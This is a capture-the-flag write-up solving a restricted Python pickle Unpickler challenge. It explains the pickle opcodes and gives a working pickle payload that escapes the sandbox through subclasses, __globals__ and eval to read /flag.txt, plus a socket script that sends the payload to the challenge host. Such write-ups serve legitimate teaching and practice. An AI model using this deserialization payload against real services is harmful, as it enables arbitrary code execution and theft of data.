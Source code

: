 Source code  
```  
#!/usr/local/bin/python3

import pickle  
import io  
import sys

module = type(__builtins__)  
empty = module("empty")  
empty.empty = empty  
sys.modules["empty"] = empty

class SafeUnpickler(pickle.Unpickler):  
   def find_class(self, module, name):  
       if module == "empty" and name.count(".") <= 1:  
           return super().find_class(module, name)  
       raise pickle.UnpicklingError("e-legal")

lepickle = bytes.fromhex(input("Enter hex-encoded pickle: "))  
if len(lepickle) > 400:  
   print("your pickle is too large for my taste >:(")  
else:  
   SafeUnpickler(io.BytesIO(lepickle)).load()  
```  
So we have patched Unpickler preteding to be safe. In order to crack this, we
need to understand how it works (obviously). Basically pickle use Pickle
Machine to extract data, and input data is a program for this machine. So we
need to understand which commands supports Pickle Machine. Full list of
commands and clear explanation what they do we can find in [source
code](https://github.com/python/cpython/blob/main/Lib/pickle.py#L111) (code
never lies). For our purpose we need some subset of commands:  
1. Identify pickle protocol. Byte code \x80. We set it on version 4, full command \x80\x04  
2. V -- push string literal on stack top.  
3. ( -- mark position on stack  
4. \x93 -- push self.find_class(modname, name) (method which overload in source code of task). Modname and name pops from stack.  
5. t -- make tuple starting from top of stack to marked position, which defines by '(' command  
6. R -- call function. Pseudocode of command:   
```  
args = stack.pop()  
func = stack.pop()  
stack.push(func(*args))  
```  
7-8. Two commands to put ('p') and get ('g') object from memo (imagine it like
global dict, which accessable from any point of pickle-program). Use it like
this:  
```Vsome_string\np0\nVanother_string\ng0\n```.  Now on top of stack has string
"some_string".

If command has arguments, arguments must be separated by new line symbol
('\n').  
Now we can start build our pickle-program, but we have two problems. Only
module "empty" (which has no properties) is accessably to us. And second
dificulty is we can not use more than one dot in argument "name" of method
```find_class(self, module, name)```  
Empty module not so scare because we know pyjail escape technique like this

```empty.__class__.__base__.__subclasses__()[100].__init__.__globals__['__builtins__']['eval']('print(open("/flag.txt").read())')```

But what we can do about second trouble? We can load parts of our attack
vector into "empty" module, saving interim steps. For that we need callable,
which do job. We can take it by load ```empty.__setattr__``` method on stack
(and save it in memo). Another thing, we strongly need, is ```getattr```
method. But it is function from ```__builtins__``` module. But same
functionality we can find in method ```object.__getattribute__```. So now we
have all piecies of pazzle on the table, let build solution.

```  
import socket

# functional equivalent  
# g0 = empty.__class__.__base__  
# g1 = empty.__setattr__  
# g1('obj', g0)  
# g2 = empty.obj.__getattribute__  
# g1('sc', empty.obj.__subclasses__())  
# g3 = empty.sc.__getitem__  
# g1('i', g2(g3(100), '__init__'))  # empty.i = obj.subclasses()[100].__init__  
# g1('gl', empty.i.__globals__)  
# g4 = empty.gl.__getitem__  
# g1('b', g4('__builtins__'))  # empty.b = empty.i.__globals__['__builtins__']  
# g5 = empty.b.__getitem__  
# g1('e', g5('eval'))  # empty.e = empty.b['eval']  
# empty.e('print(open("flag.txt").read())')

lepickle = b'\x80\x04' \  
          b'Vempty\nV__class__.__base__\n\x93p0\n' \  
          b'(Vempty\nV__setattr__\n\x93p1\n' \  
          b'g1\n(Vobj\ng0\ntR' \  
          b'Vempty\nVobj.__getattribute__\n\x93p2\n' \  
          b'g1\n(Vsc\nVempty\nVobj.__subclasses__\n\x93)RtR' \  
          b'Vempty\nVsc.__getitem__\n\x93p3\n' \  
          b'g1\n(Vi\ng2\n(g3\n(I100\ntRV__init__\ntRtR' \  
          b'g1\n(Vgl\nVempty\nVi.__globals__\n\x93tR' \  
          b'Vempty\nVgl.__getitem__\n\x93p4\n' \  
          b'g1\n(Vb\ng4\n(V__builtins__\ntRtR' \  
          b'Vempty\nVb.__getitem__\n\x93p5\n' \  
          b'g1\n(Ve\ng5\n(Veval\ntRtR' \  
          b'Vempty\nVe\n\x93(Vprint(open("/flag.txt").read())\ntR.'

sock = socket.socket()  
sock.connect(('challs.actf.co', 31332))  
sock.recv(1000)  
sock.send(lepickle.hex().encode('utf-8') + b'\n')  
print(sock.recv(1000).decode('utf-8'))  
```